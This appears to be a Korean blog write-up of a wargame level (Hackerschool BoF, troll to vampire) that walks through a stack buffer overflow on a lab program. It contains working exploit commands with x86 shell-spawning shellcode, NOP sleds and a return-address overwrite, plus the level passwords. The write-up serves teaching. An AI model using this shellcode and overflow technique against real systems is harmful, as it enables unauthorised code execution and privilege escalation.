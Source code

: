 ```yaml
---
layout: post
title: "[Wargame] 해커스쿨 BoF LEVEL9 (troll -> vampire) : check 0xbfff"
date: 2015-11-13 22:30
comments: true
categories:  wargame
tags: [bof]
---
```


- id = troll 
- pw = aspirin

<!-- more -->

## 1. 문제 : vampire.c

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - vampire
        - check 0xbfff
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
} 
```

### 1.1 변경 사항

이번에 추가된 제약사항은 `LR` 값이 현재 stack 위치이므로 `0xbfff----` 이므로 항상 `0xbf` `0xff` 값이 들어가게 되는데, 이때 `0xff` 값을 넣지 못하는 제약사항이다.

```c
        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }
```

## 2. 공격 방법 고민

현재 stack 이 `0xbfff----` 부근에 설정이 되고 있어서 `$LR` 값이 `0xbfff----` 로 설정이 되는데, 이 값을 사용 할 수 없다면 ?

### 2.1 LR 값을 수정

실제 값은 `0xbf`, `0xff` 를 사용하지만 다른 값을 넣은 다음에 shellcode 에서 이 값을 수정해서 `0xff` 가 되도록 한다 ? 가능할 수도 있겠지만 아직 shellcode 를 마음대로 작성할 수준은 안 되서 일단 패스…

### 2.2 Stack 이 0xbfff 가 아닌 곳에 잡히도록 설정

이전 문제 경험에 의하면 함수가 실행되기 위해서는 argument pararameter passing 을 위하여 이 값이 main function 아래에 stack 에 잡히게 된다. 이 argument에 매우 긴 값을 넣으며 그만큼 stack 은 위에 잡히게 되어 `0xbfff` 가 아니라 그 위 주소에 설정되도록 할 수 있지 않을까 ?

#### 2.2.1 NOP 50개 ==> 0xbffffdd8

```bash
`python -c 'print "A"*44 + "\x94\xfb\xf0\xbf"'`  `python -c 'print "\x90"*50 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

#### 2.2.2 NOP 350개 ==> 0xbffffcac

```bash
`python -c 'print "A"*44 + "\x94\xfb\xf0\xbf"'`  `python -c 'print "\x90"*350 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"'`
```

`argv[2]` 에 NOP 를 300개 추가하자 stack 위치가 정확하게 300bytes 만큼 올라가서 잡힌다. :)

## 3. 공격

argument 에 긴 값을 넣어서 stack 이 `0xbfff----` 위에 잡힐 수 있도록 공격을 해보자.

![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage9-1.png)
![img](https://raw.githubusercontent.com/humb1ec0ding/humb1ec0ding-etc/master/2015/11/stage9-3.png)

NOP 중에서 `0xbffe7648`을 `LR` 로 이용하여 공격.

```bash
./vampire `python -c 'print "A"*44 + "\x48\x76\xfe\xbf"'`  `python -c 'print "\x90"*350 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "A"*100000'`                                                                      
bash: /home/troll/.bashrc: Permission denied

bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)
```

## 4. 다음 단계 정보

실제 exploit 을 위해서는 명령실행환경에서의 `agv[0]`의 위치를 정확하게 알아야 한다. 

```bash
bash$ id
uid=508(troll) gid=508(troll) euid=509(vampire) egid=509(vampire) groups=508(troll)

bash$ my-pass
euid = 509
music world
```